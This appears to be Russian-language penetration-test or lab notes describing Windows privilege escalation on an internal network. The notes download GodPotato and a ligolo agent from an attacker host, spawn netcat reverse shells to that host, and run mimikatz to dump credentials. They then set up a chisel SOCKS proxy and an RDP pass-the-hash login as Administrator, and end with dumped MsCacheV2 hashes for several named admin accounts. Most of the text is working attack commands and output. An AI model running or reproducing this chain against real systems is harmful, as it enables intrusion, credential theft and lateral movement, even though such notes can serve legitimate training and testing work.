    IPv4 Address. . . . . . . . . . . : 10.154.13.37(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.224
   Default Gateway . . . . . . . . . : 10.154.13.33
   DNS Servers . . . . . . . . . . . : 10.154.12.198
10.154.12.199
   NetBIOS over Tcpip. . . . . . . . : Enabled
Закидываем картошку (https://github.com/BeichenDream/GodPotato) для получение проверки прав системы так как пользователю доступна привилегия **SeImpersonatePrivilege**
iwr -uri http://10.127.246.243:8080/GodPotato-NET4.exe -o godpot.exe
iwr -uri http://10.127.246.243:8080/ligolo-ng_agent_0.7.2-alpha_windows_amd64/agent.exe -o ag.exe
./godpot.exe -cmd "cmd /c whoami"
![[Pasted image 20241022222059.png]]
NO WORK
создадим обратный шелл системы
./GodPotato.exe -cmd "nc64.exe -t -e C:\Windows\System32\cmd.exe 10.127.246.243 5555" 
запустим mimikatz для сбора хешей.
token::elevate
Получаем хеш администратора. Загружаем chisel (https://github.com/jpillora/chisel) для создания прокси
запускаем сервер 
chisel server --reverse --port 1080
запускаем клиента
./chis.exe client 10.127.246.243:1080 R:socks
настраиваем /etc/proxychains4.conf
socks5 127.0.0.1 1080
Запускаем рдп к админу proxychains -q xfreerdp /u:Administrator /pth: hash pass /v:o_lara
./godpot.exe -cmd " cmd /c C:\Users\O_Lara\Documents\mimaz.exe "log" "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"  "
./godpot.exe -cmd "cmd /c C:\Users\O_Lara\Documents\nc64.exe 10.127.246.243 5555 -e sh" 
./godpot.exe -cmd "nc64.exe -t -e cmd 10.127.246.243 5555"

 ```
 Iteration is set to default (10240)

[NL$2 - 10/30/2024 7:38:30 AM]
RID       : 00000461 (1121)
User      : hte\j_miles
MsCacheV2 : af01e60cd78e5c6ce4972d9c3ead506f

[NL$3 - 10/30/2024 2:58:10 PM]
RID       : 0000049c (1180)
User      : hte\a_petinson_admin
MsCacheV2 : 113cf5264ab093c52cc06dc404596dca

[NL$4 - 3/14/2024 7:49:44 AM]
RID       : 0000049b (1179)
User      : hte\k_delaney_admin
MsCacheV2 : e5158fe15a7e4f2ce2d6d844652cb0fc

[NL$5 - 10/27/2024 3:48:48 PM]
RID       : 0000045a (1114)
User      : hte\j_bowen_admin
MsCacheV2 : 6167c7eeb879d232bad0bbee78865dcc

[NL$6 - 10/22/2024 12:35:05 PM]
RID       : 00000458 (1112)
User      : hte\j_glenn_admin
MsCacheV2 : f08a98bbd5b6e57f9f7fb8f93e6776b4

[NL$7 - 9/23/2024 11:29:31 AM]
RID       : 0000049e (1182)
User      : hte\t_hanks_admin
MsCacheV2 : f6cda3d2814d540d5f61ba74ae884328

 ```
